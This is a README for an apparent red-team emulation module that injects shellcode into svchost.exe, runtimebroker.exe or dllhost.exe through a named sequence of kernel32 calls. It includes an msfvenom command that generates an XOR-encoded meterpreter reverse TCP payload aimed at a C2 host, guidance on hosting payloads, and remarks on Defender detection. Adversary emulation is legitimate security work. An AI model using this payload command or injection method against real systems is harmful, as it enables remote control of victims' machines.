 # Simple Processs Injection

Performs a simple remote process injection of 64-bit shellcode. Windows calc.exe will run by default or URL parameter can point to base64 encoded custom shellcode file. 

## Credits and References

Author: Joff Thyer

Operating System(s): Windows

## Installation

Please reference our module [installation guide](https://github.com/scythe-io/community-modules/wiki) on the wiki.

##  Manual

```
usage: process_inject_method1 [-h] [-u URL]
Inject shellcode into memory
optional arguments:
  -h, --help         show this help message and exit
  -u URL, --url URL  URL to GET base64 encoded shellcode from
rivergumsecurity.process_inject_method1 --url <shellcode URL>
```

## FAQ:

### Question 1: What is this module?
The simple process injection module is designed to inject 64-bit shellcode into memory using Windows kernel32.dll calls. The module has an optional parameter of --url which allows you to specify a URL from which to load the shellcode. If you do not provide this parameter, the default shellcode of loading a Windows calculator will be used.

### Question 2: What methods and remote process does it choose to inject?
The module uses a combination of Windows kernel32.dll calls in sequence as follows; OpenProcess(), VirtualAllocEx(), WriteProcessMemory(), VirtualProtectEx(), and CreateRemoteThread(). The process selection is a random choice of user owned processes named "svchost.exe", "runtimebroker.exe", or "dllhost.exe". This selected process has to be 64-bit architecture to match the shellcode thread that will be created.

### Question 3: How do I create and host new shellcode for use by this module?
You must generate 64-bit assembly code using a tool of your choice. Many people in the penetration testing industry are likely to choose using something like Metasploit or Cobalt Strike to generate the assembly code (otherwise known as shellcode). The resulting file you generate must be base64 encoded. If you are going to use a C2 channel, I highly recommend you proceed with a stageless payload and a simple shellcode encoding. (Please substitute your actual C2 server IP address for the "LHOST=" portion below.) An example of this would be as follows:

```$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=1.2.3.4 LPORT=443 -e x64/xor -f raw | base64 -w0 >shellcode.txt```

```$ msfvenom -p windows/x64/exec CMD=notepad.exe | base64 -w0 >shellcode.txt```

The resulting "shellcode.txt" file must be hosted on a web server of your choosing.

### Question 4: Will my endpoint security defense be triggered?
This is dependent on the endpoint security product you are using. Second stage payloads from commodity frameworks like Metasploit WILL TRIGGER Windows Defender for example. If the module fails to correctly inject shellcode into the randomly selected process, it will return an error based on the return call from the specific kernel32 API call being made at the time. If the module succeeds, it will return the process identifer selected and injected into.

### Question 5: Do I host the shellcode on HTTP or HTTPS server?
You can do either HTTP or HTTPS. If you decide to use HTTPS (TLS), please ensure that you use a valid signed certificate! The shellcode injection process will fail if the TLS certificate cannot be properly validated.

### Question 6: Does it work with the 32-bit Python interpreter?
No it does not. You must use 64-bit shellcode with this module and it must run with the 64-bit Python runtime.
